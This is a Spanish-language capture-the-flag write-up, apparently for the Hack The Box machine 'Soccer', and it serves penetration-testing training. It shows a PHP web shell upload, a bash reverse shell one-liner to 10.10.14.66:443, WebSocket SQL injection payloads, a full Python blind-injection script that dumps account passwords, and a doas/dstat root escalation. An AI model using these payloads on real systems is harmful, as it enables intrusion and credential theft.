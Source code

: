 # Soccer<br>


Sistema Operativo: Linux

Dificultad: Fácil

Técnicas Vistas: Web Enumeration, 
Abusing Tiny File Manager (RCE by Uploading a Malicious PHP File), 
WebSocket SQL Boolean-Based/Time-Based Blind Injection,
Abusing Doas Privilege (dstat) [Privilege Escalation]

Te prepara para las Certificaciones: eWPT eWPTXv2 OSWE

![Image](https://github.com/user-attachments/assets/d6a659d9-c06a-48d3-b702-166d8af92436)

# Reconocimiento

Hacemos un escaneo con `nmap` para encontrar puertos abiertos. <br>

![Image](https://github.com/user-attachments/assets/75366dc4-63b0-4262-8d86-d93e026a5711)<br>

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>


Utilizando `gobuster` encontramos directorios.<br>

![Image](https://github.com/user-attachments/assets/5ebd77b6-d710-4b58-bb1a-18203dc9aea7)<br>

- `dir` ->  Buscar directorios 
- `-u` -> Indicar URL
- `-w` ->  Indicar diccionario que voy a utilizar
- `-t` -> Numero de hilos que voy a usar<br><br>


# Explotación subida de archivos

Creamos un archivo `cmd.php`  para controlar el parametro `cmd`.<br>

![Image](https://github.com/user-attachments/assets/7476fe59-5e9d-4dd4-bc10-399f6e574e5d)<br><br>


Lo subimos a la ruta `/tiny/uploads`<br>

![Image](https://github.com/user-attachments/assets/69f7f303-6a78-4c7a-89c0-b18d5292d311)<br><br>


Con la Query `bash -c "bash -i >%26 /dev/tcp/10.10.14.66/443 0>%261"` y escuchando por el puerto `nc -nlvp 443` ganamos acceso a la maquina.<br>

![Image](https://github.com/user-attachments/assets/e41c2744-d27e-4fac-937f-0cc238533dd1)<br><br>


# Escalada de privilegios

En esta ruta de `nginx` encontramos un subdominio.<br>

![Image](https://github.com/user-attachments/assets/d7b67c41-0ed4-41e6-8c47-7ea4dcbd7003)<br><br>


Luego de logearnos, vemos este campo del Ticket, lo interceptamos con Burpsuite.<br>

![Image](https://github.com/user-attachments/assets/ed4ec488-4e9b-4824-8b30-cb46dedf3116)<br>


Descubrimos que se trata de un `WebSocket`, el cual es vulnerable a esta inyección `"id":"83817 or 1=1-- -"`<br>

![Image](https://github.com/user-attachments/assets/28153e92-c650-431a-974d-b9df12c62b22)<br><br>


Podemos hacer un script en `Python` para sacar las bases de datos, tablas, columnas, usuario y contraseña.<br>

```
#!/usr/bin/python3

import websocket, signal, sys, string, json
from pwn import *
from termcolor import colored

def def_handler(frame, sig):
    print(colored(f"\n [!] Saliendo... \n\n", 'red'))
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

# Varibles globales

characters = string.ascii_letters + string.digits + string.punctuation
ws = websocket.WebSocket()
ws.connect("ws://soc-player.soccer.htb:9091/")


def sqli():

    database = ""

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Database name:")

    for position in range(1, 500):
        for character in characters:
            payload = {
                "id":"83817 or binary substr((select group_concat(email,0x3a,username,0x3a,password) from soccer_db.accounts),%d,1)='%s'" % (position, character)
            }

            ws.send(json.dumps(payload))
            data = ws.recv()

            if "Ticket Doesn't Exist" not in data:
                database += character
                p2.status(database)
                break


if __name__ == '__main__':

    sqli()
```
<br><br>
`(select group_concat(schema_name) from information_schema.schemata)` -> Nos reporta las bases de datos<br>

`(select group_concat(table_name) from information_schema.tables where table_schema='soccer_db')` -> Nos reporta las tablas<br>

`(select group_concat(column_name) from information_schema.columns where table_schema='soccer_db' and table_name='accounts')` -> Nos muestra las columnas.<br>

`(select group_concat(username,0x3a,password) from soccer_db.accounts)` -> Nos reporta usuario y contraseña.<br>

Tenemos el usuario y contraseña:<br>

![Image](https://github.com/user-attachments/assets/f14e3c53-be71-4d44-80ad-2e531706a06b)<br><br>

##### Una vez siendo el usuario player: https://gtfobins.github.io/gtfobins/dstat/ <br>

cat /usr/local/etc/doas.conf   -> Vemos si algun usuario puede ejecutar como administrador algo.<br>

Creamos un archivo en la ruta donde podamos escribir puede ser:  `/usr/share/ | grep "dstat"` o `/usr/local/share | grep "dstat"`<br>

En donde podamos escribir creamos el archivo `/usr/local/share/dstat/dstat_ex.py`<br>

![Image](https://github.com/user-attachments/assets/f67b32ea-31ab-4a66-830f-451359098761)<br><br>

Lo ejecutamos de esta manera:<br>

![Image](https://github.com/user-attachments/assets/a1a3ba61-d5b5-4c27-9651-ecc902eed1ed)<br><br>


Nos convertimos en root:<br>

![Image](https://github.com/user-attachments/assets/a223e6d1-e62e-48b5-88cb-8b2fd8b2cd37)
